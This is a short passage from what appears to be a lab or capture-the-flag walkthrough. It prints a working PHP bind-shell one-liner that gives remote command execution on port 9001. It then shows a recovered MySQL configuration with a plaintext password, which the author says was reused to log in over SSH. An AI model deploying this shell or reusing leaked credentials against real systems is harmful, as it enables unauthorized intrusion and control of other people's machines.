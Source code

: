 ```
php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",9001);socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);socket_write($cl,$m,strlen($m));}}'
```

then I got the shell

![got-php-bind-shell](./assets/php-bind-shell.png)

Next step after I found mysql config I try to ssh with username/password

```
<pre><?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");


?>
</pre>
```

Got the shell~~~
